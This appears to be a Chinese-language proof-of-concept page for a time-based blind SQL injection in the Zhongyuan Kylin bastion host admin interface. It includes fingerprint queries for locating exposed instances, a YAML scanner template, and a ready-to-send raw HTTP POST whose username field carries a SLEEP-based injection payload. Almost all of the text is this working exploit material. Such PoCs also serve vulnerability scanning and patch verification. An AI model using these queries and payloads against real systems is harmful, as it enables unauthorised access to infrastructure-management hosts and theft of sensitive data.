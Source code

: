 ## 中远麒麟堡垒机SQL注入
麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。
检索条件:
cert="Baolei"||title="麒麟堡垒机"||body="admin.php?controller=admin_index&action=get_user_login_fristauth"||body="admin.php?controller=admin_index&action=login"

```
poc:
  relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")

```
检索条件：
cert="Baolei" 或 title="麒麟堡垒机" 或 body="admin.php?controller=admin_index&action=get_user_login_fristauth" 或 body="admin.php?controller=admin_index&action=login"

## 请求包
```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```
